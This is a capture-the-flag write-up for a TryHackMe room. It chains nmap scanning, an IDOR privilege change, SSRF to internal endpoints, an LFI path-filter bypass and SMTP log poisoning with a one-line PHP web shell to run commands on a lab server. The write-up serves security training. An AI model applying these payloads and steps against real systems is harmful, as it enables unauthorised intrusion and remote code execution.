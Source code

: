 # Include

A writeup for the room [Include](https://tryhackme.com/r/room/include) on TryHackMe.

> Use your server exploitation skills to take control of a web app.

<Image src={require("./logo.webp").default} height="256" />

### What is the flag value after logging in to the SysMon app?

The first step is to scan the target with nmap:

```sh
nmap -sS TARGET_IP
```

<Image src={require("./1-1-nmap.webp").default} />

The services on port 4000 and 50000 could be interesting:

```sh
nmap -A -p 4000,50000 TARGET_IP
```

<Image src={require("./1-2-nmap-4000.webp").default} />

<Image src={require("./1-3-nmap-50000.webp").default} />

They are both web servers. The one on port 4000 is a login page.

<Image src={require("./1-4-4000-index.webp").default} />

The service on port 50000 is an admin panel.

<Image src={require("./1-5-50000-index.webp").default} />

We can try to login to the website on port 4000 with guest:guest as credentials.

Once inside we can see a user profile page.

There are many properties and a form to add a new one.

By looking to the URL we can easily see that there is an IDOR vulnerability.

<Image src={require("./1-6-idor.webp").default} />

There are two other users (2 and 3) but there is nothing to do with them.

Because there is a property called isAdmin set to false, we can try to change it.

<Image src={require("./1-7-admin.webp").default} />

Once done new pages are available: API and Settings.

<Image src={require("./1-8-api.webp").default} />

<Image src={require("./1-9-settings.webp").default} />

The API page contains the details about two endpoints available for the user.

The endpoints are not directly accessible by us.

Inside the Settings page, we can see an input field to change the profile banner.

If we try to change the link we will see that the server will download the image and set as url its base64 encoding.

By giving one of the endpoints as a link, the server will download the content and show it to us.

This vulnerability is called Server-Side Request Forgery (SSRF).

<Image src={require("./1-10-endpoint-1.webp").default} />

<Image src={require("./1-11-endpoint-2.webp").default} />

We finally have access to the admin panel and obtain the first flag.

<Image src={require("./1-12-flag.webp").default} />

### What is the content of the hidden text file in /var/www/html?

We can try to search for subpaths with gobuster:

```sh
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://TARGET_IP:50000
```

<Image src={require("./2-1-gobuster.webp").default} />

Looking to the source code of the admin panel we can see that the profile image is loaded as `profile.php?img=profile.png`.

The image is inside the uploads folder.

<Image src={require("./2-2-uploads.webp").default} />

We can try to change the link to `profile.php?img=../uploads/profile.png`.

However, the path in this way will not work.

If we play a bit with the link we can see that the server is removing in some way the first part.

By adding ...// multiple times we can bypass the filter and access the file.

This is an example of Local File Inclusion (LFI) vulnerability.

<Image src={require("./2-3-passwd.webp").default} />

Looking to one of the available PHP file it is possible to notice that they are parsed by the server.

This means that if we can insert PHP code into a file, it can be executed, causing an RCE (Remote Code Execution).

A possible way is through log poisoning using for example the /var/mail/log file.

To insert something into this log file it is enough to send an email through the SMTP server.

```sh
telnet TARGET_IP 25
helo test
mail from: <?php echo shell_exec($_GET['cmd']); ?>
```

<Image src={require("./2-4-telnet.webp").default} />

Now, by sending `&cmd=ls` as a parameter inside the final log file it will be possible to see the output of the command.

To find the hidden file we can use the following command:

```sh
&cmd=ls%20-a%20/var/www/html
```

<Image src={require("./2-5-files.webp").default} />

Finally, we can read the content of the hidden file obtaining the second flag.

```sh
&cmd=cat%20/var/www/html/REDACTED
```

<Image src={require("./2-6-flag.webp").default} />
